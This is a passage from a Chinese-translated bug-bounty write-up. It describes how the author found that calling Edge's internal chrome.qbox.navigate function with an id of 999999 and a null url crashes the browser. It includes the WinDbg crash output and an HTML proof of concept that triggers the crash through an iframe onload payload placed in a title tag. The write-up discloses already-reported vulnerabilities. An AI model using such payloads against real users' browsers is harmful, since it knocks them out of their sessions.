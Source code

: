 视频里可以看到我发现`chrome.qbox.navigate`是一个特别的函数，通过报错信息，发现这里需要填入`qbox.NavigationItem`类型的参数。

几次尝试后，发现可以将一个内含 url 和 id 的 JSON 对象传入函数，至少得包括这俩键值才不会产生报错信息。`chrome.qbox.navigate({ id:0, url:""})`
本以为会产生什么弹窗或者出现新的窗口，但是什么都没有。在这之后，我开始在 url 和 id 的值上进行尝试，当测试到一下值时，终于出现了异常` chrome.qbox.navigate({id:999999,url:null})`
运行这条语句后，Edge 浏览器窗口消失了，之后查看系统错误日志后发现一下信息：

```
(69a4.723c): Access violation - code c0000005 (first/second chance not available)
ntdll!NtDelayExecution+0x14:
00007ffd`9fddc754 c3              ret
```
可能是一个`近指针NULL`（near NULL），感觉没啥可以利用的。
【译者注：近指针NULL，与编译器和CPU相关。过去的编译器，针对指针有 far 和 near 的区别】

```
rax=000001ff5651ba80 rbx=000001ff5651ba80 rcx=000001ff5651ba80
rdx=3265727574786574 rsi=000001ff5651ba80 rdi=0000009eb9bfd4f0
rip=00007ffd17814b40 rsp=0000009eb9bfd300 rbp=000001ff4fec30a0
 r8=000000000000008f  r9=0000000000000040 r10=0000000000000080
r11=0000009eb9bfd290 r12=000000000000006f r13=0000009eb9bfda90
r14=0000009eb9bfd478 r15=00000094b5d14064
iopl=0         nv up ei pl nz na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
msedge!ChromeMain+0x9253e:
00007ffd`17814b40 488b02          mov     rax,qword ptr [rdx] ds:32657275`74786574=????????????????
Resetting default scope

FAULTING_IP: 
msedge!ChromeMain+9253e
00007ffd`17814b40 488b02          mov     rax,qword ptr [rdx]

EXCEPTION_RECORD:  (.exr -1)
ExceptionAddress: 00007ffd17814b40 (msedge!ChromeMain+0x000000000009253e)
   ExceptionCode: c0000005 (Access violation)
  ExceptionFlags: 00000000
NumberParameters: 2
   Parameter[0]: 0000000000000000
   Parameter[1]: ffffffffffffffff
Attempt to read from address ffffffffffffffff

DEFAULT_BUCKET_ID:  INVALID_POINTER_READ

PROCESS_NAME:  msedge.exe
```
不过好像让程序崩溃时可以利用的，但是由于并不擅长内存方面的漏洞，于是不得不又去读了 MDN【译者注：MDN是MDN Web Docs（ MDN 网络文档）这个网站的简称，是一个汇集众多 Mozilla 基金会产品和网络技术开发文档的免费网站，其实就是一个放了很多技术文档的一个网站。】文档关于可利用程序崩溃方面的信息，之后再次对 `qbox.navigate` 函数进行测试，尝试找出利用崩溃的方法，以下是相关 POC（和利用程序崩溃达到其他目的不同，这个 POC 只能让浏览器运行崩溃）：

```
<html>
<head>
<title>test<iframe/src=1/ onload=chrome.qbox.navigate(JSON.parse(unescape("%7B%22id%22%3A999999%2C%22url%22%3Anull%7D")))></title>
<body>
q
</body>
</html>
```
这两个漏洞最终被微软确认，XSS 漏洞给了 15000 美元，运行崩溃给了 10000 美元。所以准确来说我在 Edge 上已经发现了两个漏洞！
